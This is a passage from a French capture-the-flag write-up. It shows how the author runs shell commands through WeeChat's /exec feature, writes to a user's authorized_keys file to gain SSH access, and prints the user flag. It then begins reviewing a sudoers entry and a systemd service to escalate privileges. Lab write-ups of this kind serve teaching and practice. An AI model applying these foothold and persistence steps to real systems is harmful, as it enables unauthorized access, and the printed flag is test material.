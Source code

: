 Via le [Guide utilisateur WeeChat](https://weechat.org/files/doc/weechat/stable/weechat_user.fr.html#external_commands), je trouve un moyen d'exécuter des commandes.

Ainsi saisir `/exec id` retourne `uid=1001(chatlake) gid=1001(chatlake) groups=1001(chatlake)`.

Si on peut profiter des redirections, il faut utiliser l'option `-sh`, par exemple :

`/exec -sh echo test > /tmp/test.txt`

J'utilise ce principe pour écrire dans le fichier `authorized_keys` de `chatlake`.

```console
$ id
uid=1001(chatlake) gid=1001(chatlake) groups=1001(chatlake)
$ ls -al
total 32
drwx------ 4 chatlake chatlake 4096 May 11 10:34 .
drwxr-xr-x 4 root     root     4096 Apr  5 07:56 ..
lrwxrwxrwx 1 root     root        9 Apr  5 08:24 .bash_history -> /dev/null
-rw-r--r-- 1 chatlake chatlake  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 chatlake chatlake 3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 chatlake chatlake  807 Apr 18  2019 .profile
drwxr-xr-x 2 chatlake chatlake 4096 May 11 10:34 .ssh
-rw-r--r-- 1 chatlake chatlake   39 Apr  4 23:55 user.txt
drwxr-xr-x 8 chatlake chatlake 4096 May 11 10:35 .weechat
$ cat user.txt  
flag{b42baba466402e32157a1cbba819664e}
```

### Toxic

On rentre dans la mauvaise partie du CTF.

On a donc cette entrée sudoers qui permet de lancer le bot IRC avec n'importe quel utilisateur :

```console
$ sudo -l
Matching Defaults entries for chatlake on PyCrt:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User chatlake may run the following commands on PyCrt:
    (ALL) NOPASSWD: /usr/bin/systemctl start irc_bot.service
```

Évidemment ce n'est pas aussi "open" que cela puisque l'utilisateur à utiliser est spécifié dans l'entrée `[Service]` :

```console
chatlake@PyCrt:~$ ls -al /etc/systemd/system/irc_bot.service 
-rw-r--r-- 1 root root 323 Apr  4 10:24 /etc/systemd/system/irc_bot.service
chatlake@PyCrt:~$ cat /etc/systemd/system/irc_bot.service
[Unit]
Description=IRC Bot Service
After=network.target

[Service]
User=pycrtlake
Group=pycrtlake
WorkingDirectory=/usr/local/bin
ExecStart=/usr/bin/python3 /usr/local/bin/irc_bot.py
Restart=always
RestartSec=5
StandardOutput=syslog
StandardError=syslog
Environment=PYTHONUNBUFFERED=1

[Install]
WantedBy=multi-user.target
```